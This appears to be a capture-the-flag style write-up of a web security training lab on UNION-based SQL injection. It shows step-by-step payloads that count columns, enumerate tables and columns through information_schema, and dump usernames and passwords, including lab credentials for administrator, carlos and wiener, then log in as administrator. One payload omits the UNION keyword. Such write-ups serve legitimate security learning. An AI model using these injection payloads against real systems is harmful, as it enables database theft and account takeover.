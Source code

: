 ## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/234173772-d674eb97-c3c0-4f6d-99b2-3628123f4f5b.png)

## Solution :

Most database types (with the notable exception of Oracle) have a set of views called the `information schema` which provide information about the database.

You can query `information_schema.tables` to list the tables in the database:

```sql
SELECT * FROM information_schema.tables
```
O/P shows the columns present in it

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

## Steps

![image](https://user-images.githubusercontent.com/67383098/234173842-080419e3-bb62-4507-b6c2-4d30888d4ce8.png)


#### Determine the number of columns -

**ORDER BY 3**

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ORDER BY 3--
```

![image](https://user-images.githubusercontent.com/67383098/234173744-116b627a-2c8d-4651-bc3c-7ed6140df288.png)

#### Determine wich column contains text data

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' SELECT 'abc','def'--
```
Both the columns contain text data.

![image](https://user-images.githubusercontent.com/67383098/234236358-f0e2e77a-08de-4d4a-99a3-782ffa80f5ae.png)

### List the database contents

#### List tables -

From the information schema tables, there are some default columns.

![image](https://user-images.githubusercontent.com/67383098/234646578-ad156354-c5cb-49a0-a765-89f1f835b80a.png)


```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT table_name,NULL FROM information_schema.tables--
```

We get list of all the available tables

![image](https://user-images.githubusercontent.com/67383098/234243537-2f93b162-2198-4cb0-b252-33830667abef.png)

![image](https://user-images.githubusercontent.com/67383098/234248758-0f64078c-cf1c-495b-a685-e4627826101b.png)


#### List columns -

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_fhlhke'--
```

We get these columns

![image](https://user-images.githubusercontent.com/67383098/234249287-a2b9687b-5454-43b2-950a-081b9d233dea.png)

columns - `username_yoqrkg` & `password_btqiad`

#### Retreive information from the columns username_yoqrkg & password_btqiad from the table users_fhlhke -


```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT username_yoqrkg,password_btqiad FROM users_fhlhke--
```
Now we get the username and password of all users.

![image](https://user-images.githubusercontent.com/67383098/234250737-85288dcd-13a8-406b-82c7-1198ab231fb6.png)

administrator - `a80zs35scefit206tw5s`
carlos - `hfs0tq3xzvdz2awja6bn`
wiener - `7qsyjg4sbbxt16easf7l`

Now login as administrator,

![image](https://user-images.githubusercontent.com/67383098/234251558-ea8c0529-f717-43eb-8a66-507fc790501a.png)

















